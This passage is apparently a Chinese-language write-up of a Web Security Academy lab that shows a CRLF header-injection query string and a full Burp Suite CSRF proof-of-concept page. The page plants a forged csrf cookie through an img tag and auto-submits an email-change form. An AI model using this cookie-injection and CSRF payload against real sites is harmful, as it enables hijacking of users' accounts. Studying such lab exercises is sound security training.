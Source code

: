 ```plain
/?search=QWQ%0d%0aSet-Cookie:csrf=aaaaaa
```

[![](assets/1705890866-a49065dafddeae67e4dadac55344ee84.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118105959-ab03f2ba-b5ad-1.png)  
随后在 Burpsuite 中构造 CSRF 载荷，随后插入自动提交并进行二次更改通过 img 标签引入可以更改头部信息的 set-cookie 字段

```plain
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0aee00e2039c4b81801cb78c00b500b3.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="longfei2234&#64;163&#46;com" />
      <input type="hidden" name="csrf" value="fake" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0aee00e2039c4b81801cb78c00b500b3.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

[![](assets/1705890866-85351cc6580ece691740be6dc4be46e9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118110040-c355ebca-b5ad-1.png)  
随后在漏洞利用服务器中托管载荷并分发  